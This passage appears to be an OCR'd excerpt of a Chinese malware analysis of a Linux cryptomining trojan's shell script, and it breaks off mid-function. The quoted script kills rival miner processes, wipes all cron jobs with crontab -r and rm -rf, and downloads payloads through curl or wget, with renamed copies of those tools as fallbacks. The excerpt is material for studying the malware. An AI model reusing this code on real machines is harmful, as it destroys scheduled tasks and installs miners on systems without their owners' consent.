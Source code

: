 ```
    pkill -f gddr
    pkill -f mstxmr
    pkill -f ddg.2011
    pkill -f wnTKYg
    pkill -f deamon
    pkill -f disk_genius
    pkill -f sourplum
    pkill -f polkitd
    pkill -f nanoWatch
    pkill -f zigw
    pkill -f devtool
    pkill -f systemctI
    pkill -f WmiPrwSe
	    pkill -f sysguard
		    pkill -f sysupdate
			    pkill -f networkservice
    crontab -r
    rm -rf /var/spool/cron/*
}
```

通过搜索其他挖矿程序木马名称，然后kill -9删除下载进程；通过pkill -f直接删除运行中的挖矿进程



```
downloads()
{
    if [ -f "/usr/bin/curl" ]
    then 
	echo $1,$2
        http_code=`curl -I -m 10 -o /dev/null -s -w %{http_code} $1`
        if [ "$http_code" -eq "200" ]
        then
            curl --connect-timeout 10 --retry 100 $1 > $2
        elif [ "$http_code" -eq "405" ]
        then
            curl --connect-timeout 10 --retry 100 $1 > $2
        else
            curl --connect-timeout 10 --retry 100 $3 > $2
        fi
    elif [ -f "/usr/bin/cur" ]
    then
        http_code = `cur -I -m 10 -o /dev/null -s -w %{http_code} $1`
        if [ "$http_code" -eq "200" ]
        then
            cur --connect-timeout 10 --retry 100 $1 > $2
        elif [ "$http_code" -eq "405" ]
        then
            cur --connect-timeout 10 --retry 100 $1 > $2
        else
            cur --connect-timeout 10 --retry 100 $3 > $2
        fi
    elif [ -f "/usr/bin/wget" ]
    then
        wget --timeout=10 --tries=100 -O $2 $1
        if [ $? -ne 0 ]
	    then
		    wget --timeout=10 --tries=100 -O $2 $3
        fi
    elif [ -f "/usr/bin/wge" ]
    then
        wge --timeout=10 --tries=100 -O $2 $1
        if [ $? -eq 0 ]
        then
```